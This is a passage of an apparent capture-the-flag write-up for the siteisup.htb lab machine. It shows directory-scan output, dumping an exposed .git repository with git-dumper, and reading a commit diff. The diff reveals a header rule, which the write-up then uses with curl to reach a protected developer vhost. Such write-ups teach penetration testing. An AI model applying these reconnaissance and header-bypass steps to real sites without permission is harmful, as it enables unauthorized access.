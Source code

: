 ```bash
[13:33:36] 403 -  277B  - /dev/.httr-oauth                                 
[13:33:37] 403 -  277B  - /dev/.php                                        
[13:33:53] 200 -    0B  - /dev/index.php                                    
[13:33:53] 200 -    0B  - /dev/index.php/login/                             
                                                                             
Task Completed
```

We use git-dumper to dump everything: 

```bash
$ git-dumper http://siteisup.htb/dev/ dev
```

Which downloads the entire repo onto our own system, we can now use git tools to look around. 

We use git logs 

```bash
$ git logs
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

commit bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:37:20 2021 +0200

    Update .htaccess
    
    New technique in header to protect our dev vhost.
```

These two commits seem interesting. So we take a look at the  difference between them 

```bash
$ git diff 8812785e31c879261050e72e20f298ae8c43b565 bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
diff --git a/.htaccess b/.htaccess
index b317ab5..44ff240 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,4 +2,3 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header
-
```

So a special header ‘only4dev’ is required to access something. Which could possibly be the dev.siteisup.htb. 

We add Special-Dev: only4dev as a header to try to access dev.siteisup.htb:

```bash
$ curl http://dev.siteisup.htb -H "Special-Dev: only4dev"
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<!DOCTYPE html>
<html>

  <head>
    <meta charset='utf-8' />
    <meta http-equiv="X-UA-Compatible" content="chrome=1" />
    <link rel="stylesheet" type="text/css" media="screen" href="stylesheet.css">
    <title>Is my Website up ? (beta version)</title>
  </head>
```